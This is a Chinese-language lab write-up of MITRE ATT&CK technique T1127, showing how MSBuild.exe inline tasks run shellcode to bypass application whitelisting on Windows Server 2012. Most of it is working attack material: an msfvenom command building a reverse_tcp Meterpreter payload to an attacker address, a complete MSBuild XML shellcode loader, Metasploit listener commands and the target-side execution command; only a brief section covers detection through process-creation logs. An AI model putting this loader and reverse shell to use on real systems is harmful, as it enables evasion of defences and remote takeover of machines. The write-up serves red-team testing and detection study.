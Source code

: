 # T1127-win-基于白名单Msbuild.exe执行payload

## 来自ATT&CK的描述

MSBuild.exe（Microsoft Build Engine）是Visual Studio使用的软件构建平台。它采用XML格式的项目文件，定义了各种平台的构建要求和配置。

攻击者可能会使用MSBuild通过受信任的Windows实用程序来代理执行代码。.NET 4中引入的MSBuild内联任务功能允许将C＃代码插入到XML项目文件中。内联任务MSBuild将编译并执行内联任务。MSBuild.exe是一个微软签名的二进制文件，因此当它以这种方式使用时，它可以执行任意代码并绕过配置为允许MSBuild.exe执行的应用白名单防御。

## 测试案例

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

说明：Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe`

## 检测日志

windows 安全日志（需要自行配置）据称可以绕过360，待确认

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### MSF生成载荷

```bash
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

![载荷](https://img-blog.csdnimg.cn/20200413135116398.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### XML文件设置

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
    <Target Name="Hello">
      <ClassExample />
    </Target>
    <UsingTask
      TaskName="ClassExample"
      TaskFactory="CodeTaskFactory"
      AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
      <Task>

        <Code Type="Class" Language="cs">
        <![CDATA[
    using System;
    using System.Runtime.InteropServices;
    using Microsoft.Build.Framework;
    using Microsoft.Build.Utilities;
    public class ClassExample :  Task, ITask
    {
      private static UInt32 MEM_COMMIT = 0x1000;
      private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
      [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
        UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
      [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
        UInt32 lpThreadAttributes,
        UInt32 dwStackSize,
        UInt32 lpStartAddress,
        IntPtr param,
        UInt32 dwCreationFlags,
        ref UInt32 lpThreadId
        );
      [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
        IntPtr hHandle,
        UInt32 dwMilliseconds
        );
      public override bool Execute()
      {
        byte[] shellcode = new byte[] {
你的payload};

          UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
      MEM_COMMIT, PAGE_EXECUTE_READWRITE);
          Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
          IntPtr hThread = IntPtr.Zero;
          UInt32 threadId = 0;
          IntPtr pinfo = IntPtr.Zero;
          hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
          WaitForSingleObject(hThread, 0xFFFFFFFF);
          return true;
      }
    }
        ]]>
        </Code>
      </Task>
    </UsingTask>
  </Project>
```

![XML文件设置](https://img-blog.csdnimg.cn/20200413135530841.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 设置监听

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

![监听](https://img-blog.csdnimg.cn/20200413140326808.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 靶机执行payload

```dos
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe file.xml
```

![加载payload](https://img-blog.csdnimg.cn/20200413140707313.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 查看会话

![反弹会话](https://img-blog.csdnimg.cn/20200413140810400.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 测试留痕

![日志留痕](https://img-blog.csdnimg.cn/20200413140937397.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1127

<https://attack.mitre.org/techniques/T1127/>

利用msbuild.exe绕过应用程序白名单安全机制的多种姿势

<https://www.freebuf.com/articles/network/197706.html>

GreatSCT|MSF|白名单

<http://www.secist.com/archives/6082.html>

对亮神基于白名单Msbuild.exe执行payload第一季复现

<https://blog.csdn.net/ws13129/article/details/89736941>

检测白名单Msbuild.exe执行payload

<https://blog.csdn.net/qq_36334464/article/details/105487176>

基于白名单执行payload

<https://www.jianshu.com/p/cdb1867c6abb>
